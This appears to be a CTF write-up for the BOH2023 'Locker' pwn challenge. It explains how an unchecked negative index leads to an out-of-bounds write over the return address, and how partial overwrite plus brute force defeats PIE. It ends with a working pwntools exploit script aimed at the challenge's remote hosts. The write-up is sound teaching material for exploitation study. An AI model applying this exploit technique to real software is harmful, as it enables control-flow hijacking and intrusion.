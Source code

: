 ```yaml
---
title : "Locker [Pwn]"
categories: BOH2023
---
```


Subtle integer underflow to hijack control flow. 

[locker.tar]({{ site.url }}/files/boh2023/locker.tar){: .btn .btn--info}

# Going through the program

This program is yet another menu program.

1. Read locker: cannot use... I wonder why... (legit)
2. Write locker: choose a lock number (1 - 8) and write into the key and value.
3. Exit: exits :)

The code also has an unused `win` function:

```c
void win() {
    system("cat ./flag.txt");
}
```

There are 8 locks (2 bytes each) in an array (8 * 2 = 16 bytes), which are all initialized to 0.

```c
#define LOCKER_NUM 8

size_t n = 32;

typedef struct {
    char key;
    char value;
} locker;

...

int main(void) {
    setup();
    locker lockers[LOCKER_NUM];
    memset(lockers, 0, sizeof(lockers));
```

We can read (does nothing) and write to locks for an arbitrary number of times. In the end, we can provide feedback...

```c
    char feedback[32];
    puts("Feedback?");
    scanf("%s", feedback);
    return 0;
}
```

Wait, buffer overflow? **WRONG**

{% include image.html url="/assets/images/boh2023/locker_checksec.png" description="bamboozled" %}

There is stack canary, so no luck :P

# Solution

After staring at this code for long enough + trading 30% of my sanity to it, I finally saw that

```c
void write_locker(locker *lockers) {
    puts("\n\nWrite Locker");
    puts("===========");
    int number;
    printf("Locker number [1-8]: ");
    scanf("%d", &number);
    if (number > LOCKER_NUM) {
        puts("Under maintenance");
        return;
    }
    printf("Key  : ");
    scanf("%hhd", &lockers[number - 1].key);
    printf("Value: ");
    scanf("%hhd", &lockers[number - 1].value);
}
```

the index is a signed integer, and only `number > LOCKER_NUM` is checked, meaning negative numbers are accepted.

What does this imply? When indexing an array, it is actually performing pointer arithmetic on the pointer to the head of the array.

```
    +-------+--------+--------+
... |       | arr[0] | arr[1] | ...
    +-------+--------+--------+
        
arr+? : -1       0        1
```

Note that pointer arithmetic changes the address in units of the type size, i.e. the actual address value changes by, for example, 4 (when +/- 1) if `arr` is an array of `int`s (4 bytes).

The key is to realize the stack layout inside `write_locker`. Note that the stack is growing upwards here (bottom = higher address value).

```
    <-- 4 bytes --x-- 4 bytes -->
    +-------------+-------------+
    |             |    number   |
    +-------------+-------------+
    |          lockers          |
    +---------------------------+
    |       stack canary        |
    +---------------------------+
    |       base pointer        |
    +---------------------------+
    |      return address       |
    +---------------------------+
    |                           |
    +-------------+-------------+
    |   option    |             |
    +-------------+-------------+
    |          lockers          |
    +-------------+-------------+
    |          lockers          |
    +-------------+-------------+
                 ...
```

You can get this by using disassemblers or just GDB and deduce it yourself.

{% include image.html url="/assets/images/boh2023/locker_stack_layout.png" description="Using Ghidra (after renaming variables)" %}

{% include image.html url="/assets/images/boh2023/locker_stack_layout_2.png" description="Using Ghidra (after renaming variables)" %}

The blank part beside option is to pad the stack to a quadword. Not sure about the 8 bytes of padding above that though, perhaps just some stack alignment stuff. I found about this 8-byte when testing out the exploit and examining through GDB.

Our goal now is to change the bytes of the return address to the address of `win`, then we win! We can do

```bash
objdump -d locker | grep win
0000000000001229 <win>:
    1261: 74 05                        	je	0x1268 <win+0x3f>
```

or search it up on Ghidra. However, we need to notice that PIE is enabled, which means that the program might be loaded at a different base address than 0x400000. Then what bytes should we write, and what values to write to? One useful fact is that the base address will be aligned to page size (usually 0x1000 bytes), meaning that the base address will always be a multiple of 0x1000.

With this knowledge, we know that the address of `win` is always 0x....229. Therefore, we can write 0x29 to the LSB of the return address, and some 0xX2 to the next byte, and keep trying until the base address matches what we put.

```
    <-- 4 bytes --x-- 4 bytes -->        <- 2 ->
    +-------------+-------------+        +---------------------------+
    |             |    number   |        |                           |
    +-------------+-------------+        +---------------------------+
    |          lockers          |        |                           |
    +---------------------------+        +---------------------------+
    |       stack canary        |        |                           |
    +---------------------------+        +---------------------------+
    |       base pointer        |        |                           |
    +---------------------------+        +------+------+------+------+
    |      return address       |        |  -9  |  -10 | -11  | -12  |
    +---------------------------+        +------+------+------+------+
    |                           |        |  -5  |  -6  |  -7  |  -8  |
    +-------------+-------------+        +------+------+------+------+
    |   option    |             |        |  -1  |  -2  |  -3  |  -4  |
    +-------------+-------------+        +------+------+------+------+
    |          lockers          |        |                    |   0  |
    +-------------+-------------+        +-------------+------+------+
    |          lockers          |        |                           |
    +-------------+-------------+        +-------------+-------------+
                 ...
```

From this, we see that we need to index `lockers[-12]`, so `number` should be -11.

# Final Script
```python
from pwn import *

DEBUG = False
context.log_level = "error"

ind = str(-11 & 0xffffffff).encode()

while True:
    conn = remote("157.245.156.90", 5000) if DEBUG else remote("54.158.139.58", 1235)

    conn.recvuntil(b"Exit")
    conn.recvline()

    conn.recvuntil(b"> ")
    conn.sendline(b"2")
    conn.sendlineafter(b": ", ind)

    b = 0x52

    # win = ...229

    conn.sendlineafter(b": ", str(0x29+5).encode())
    conn.sendlineafter(b": ", str(b).encode())

    try:
        line = conn.recvline()
        if b"ABOH" in line:
            print(line)
            conn.close()
            break
    except:
        conn.close()


```
